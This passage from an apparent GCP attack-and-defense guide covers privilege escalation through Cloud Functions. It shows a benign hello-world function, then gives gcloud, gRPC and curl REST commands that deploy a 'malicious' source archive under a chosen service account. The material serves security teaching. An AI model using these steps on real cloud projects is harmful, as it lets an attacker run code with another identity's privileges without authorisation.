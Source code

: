 ```python
#Non-Malicious Source Code
#filename: main.py
import requests

def anirban(request):
    request_json = request.get_json()
    if request.args and 'message' in request.args:
        return request.args.get('message')
    elif request_json and 'message' in request_json:
        return request_json['message']
    else:
        return f'Hello World!'
```

```python
#filename: requirements.txt
requests
```
Pack the Malicious Source Code (main.py) and requirements.txt into a zip file and upload it to a different Cloud Storage Account (not the same account where you're exploiting the Cloud Function) you have full access to (Editor) and make it public. Copy the gsutil link of the malicious zip file.

Once you have the gsutil URI of the malicious zip file go ahead Deploy a Function via any method (gCloud or Cloud Function API)

### Deploying and Setting IAM Policy to a Cloud Function via gCloud or Cloud Function API (gRPC & REST)

Command to [Deploy Cloud Function via gCloud](https://github.com/anrbn/GCP-Attack-Defense/blob/main/CloudFunction/PrivEsc-via-CloudFunction.md#deploying-a-cloud-function-via-gcloud):
```powershell
gcloud functions deploy <function-name> --runtime=python38 --source=<gs-link-of-malicious-sourcecode> --entry-point=<function-entrypoint> --trigger-http --service-account=<service-account-email>
```

Command to [Deploy Cloud Function via Cloud Function API (gRPC)](https://github.com/anrbn/GCP-Attack-Defense/blob/main/CloudFunction/PrivEsc-via-CloudFunction.md#deploying-a-cloud-function-via-cloud-function-api-grpc):
```powershell
py.exe .\main.py --project-id <project-id> --location <region> --function-name <function-name> --gsutil-uri <gs-link-of-malicious-sourcecode> --function-entry-point <entry-point> --service-account <sa-account> --deploy
```

Command to [Deploy Cloud Function via Cloud Function API (REST)](https://github.com/anrbn/GCP-Attack-Defense/blob/main/CloudFunction/PrivEsc-via-CloudFunction.md#deploying-a-cloud-function-via-cloud-function-api-rest):
```powershell
curl -X POST -H "Authorization: Bearer <token>" -H "Content-Type: application/json" -d "{\"name\":\"projects/<project-id>/locations/<region>/functions/<function-name>\",\"entryPoint\":\"<function-entrypoint>\",\"runtime\":\"python38\",\"serviceAccountEmail\":\"<service-account-email>\",\"sourceArchiveUrl\":\"<gs-link-of-malicious-sourcecode>\",\"httpsTrigger\":{}}" https://cloudfunctions.googleapis.com/v1/projects/<project-id>/locations/<region>/functions?alt=json
```
